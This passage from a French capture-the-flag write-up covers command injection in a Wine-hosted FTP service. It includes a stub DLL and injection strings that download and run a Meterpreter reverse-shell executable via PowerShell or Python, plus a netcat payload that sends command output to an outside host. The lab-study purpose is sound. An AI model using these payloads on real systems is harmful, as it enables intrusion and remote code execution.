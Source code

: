 Il y a en effet un import qui est fait de la fonction \_EssentialFunc1 de ladite dll.  

Solution ? On cross-compile une dll contenant une fonction avec le même nom et qui ne fait rien (la flemme de récupérer un CodeBlocks et de retrouver les bon paramètres).  

Mingw f0r t3h w!nZ:  

```c
#include <windows.h>
// /usr/bin/i686-w64-mingw32-gcc -o bfsvrdll.o -c bfsvrdll.c
// /usr/bin/i686-w64-mingw32-gcc -o bfsvrdll.dll -s -shared bfsvrdll.o -Wl,--subsystem,windows
__declspec(dllexport) void EssentialFunc1(void)
{
}
```

Une fois le serveur lancé en local on peut faire notre essai d'injection de commande :  

```plain
http://www.perdu.com/ & echo PWNED > c:/windows/temp/yolo.txt & notepad c:/windows/temp/yolo.txt &
```

![c0m80 command injection test](https://raw.githubusercontent.com/devl00p/blog/master/images/c0m80/c0m80_ftp_command_injection.png)

Dès lors j'ai tenté quelques injections sympas Windows related :  

```plain
http://perdu.com/ & powershell -c "(New-Object Net.WebClient).DownloadFile('http://192.168.1.3/met_win32_rev_tcp_192_168_1_3_9999.exe', 'shell.exe')" & shell.exe &
```

ou profitant de la présence de Python dans le path :  

```plain
http://www.perdu.com/ & python -c "import urllib;urllib.urlretrieve('http://192.168.1.3/met_win32_rev_tcp_192_168_1_3_9999.exe', 'shell.exe')" & shell.exe &
```

Nada, peanuts, pas un kopec...Le *phpinfo()* du début est un gros troll, il suffit de voir que le User-Agent indiqué correspond pas au mien pour le comprendre :p   

Mettons nous en situation
-------------------------

Comme le serveur FTP semble être exécuté dans un environnement Wine assez basique, le mieux est d'exécuter le programme depuis Wine aussi et voir ce qu'il est possible d'un faire.  

Et si vous tapez *help* après avoir lancé l'invite de commande avec *wine cmd.exe* vous verrez qu'on ne peut pas faire grand chose...  

Après avoir bien fouillé j'ai trouvé que l'on peut appeler des programmes Unix avec *start /unix* mais l'utilisation des PIPE entre deux commandes ne fonctionnait pas comme attendu (si on tente d'exécuter une commande et d'envoyer l'output via un netcat, la connexion sortante s'établie mais se ferme aussitôt sans envoyer les données).  

Je suppose que l'output des commandes Unix n'est pas sensé passer via la PIPE Windows... quoiqu'il en soit le problème est résolu si on parvient à tout "piper" dans une même commande Unix :  

```plain
ftp>http: & start /unix /usr/bin/python -c "import os;os.system('id | netcat 192.168.1.6 7777')"
BugReport Link Sent to Bob...
```
